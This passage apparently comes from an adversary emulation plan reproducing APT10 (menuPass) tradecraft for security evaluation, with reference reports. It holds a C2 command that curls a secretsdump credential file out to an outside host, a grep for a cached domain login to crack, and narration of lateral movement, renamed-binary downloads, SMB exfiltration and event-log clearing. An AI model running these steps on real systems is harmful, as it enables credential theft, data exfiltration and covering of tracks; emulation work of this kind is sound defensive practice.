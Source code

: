 * Using SodaMaster, curl the secretsdump output to exfiltrate the file

    ```
    ./evalsC2client.py --set-task 2ef436e5400781c2f6611c31d4ef79b8 '{"id":"s", "args":"curl -X POST -H 'filename:sdump.txt' --data-binary @C:/Windows/Temp/tmp4541 http://ten-cent.us/uploads"}'
    ```

* Confirm secretsdump output file was exfiltrated in the C2 server log then check for presence of a cached domain login for `kmimi` in the output:

    ```
    cat files/sdump.txt | grep -a kmimi
    ```

> :information_source: This hash is cracked to retrieve the plaintext password
> for `kmimi`

### :mag: Reference Code & Reporting

1. <https://securelist.com/apt10-sophisticated-multi-layered-loader-ecipekac-discovered-in-a41apt-campaign/101519/>
1. <http://jsac.jpcert.or.jp/archive/2022/pdf/JSAC2022_9_yanagishita-tamada-nakatsuru-ishimaru_en.pdf>
1. <https://media.kasperskydaily.com/wp-content/uploads/sites/86/2021/02/25140359/greatidea_A41_v1.0.pdf>
1. <https://www.trendmicro.com/ja_jp/research/21/l/Sigloader-by-Earth-Tengshe.html>
1. <https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/cicada-apt10-china-ngo-government-attacks>
1. <https://cycraft.com/download/Smokescreen_Supply_Chain_Attack_Targets_Taiwan_Financial_Sector_A_Deeper_Look.pdf>

 <details><summary>:link: Click to expand source code links table</summary></details>

<br>

## Step 9 - Data Collection & Exfiltration

### :microphone: Voice Track

menuPass uses SodaMaster to first download a modified `WMIexec.vbs` to
`C:\Users\kmimi\appdata\local\temp\w.vbs` on the bastion workstation `kimeramon (10.20.20.11)`.
Then, menuPass executes `w.vbs` with the cracked plaintext password of the file
server administrator `kmimi` to connect to the file server `alphamon (10.20.10.23)`.

menuPass uses the reverse shell on the file server `alphamon (10.20.10.23)` to
execute several PowerShell commands to enumerate and identify files of
interest. menuPass then uses certutil to download WinRAR.exe to the file server
`alphamon (10.20.10.23)` to `C:\Program Files\conhost.exe`. Then, menuPass
executes WinRAR to compress files of interest. menuPass exfiltrates the
compressed files using RoboCopy to an adversary controlled SMB share.

Once exfiltration of files is complete, menuPass clears the Windows event logs
on the file server and command history.

### ☣️ Procedures
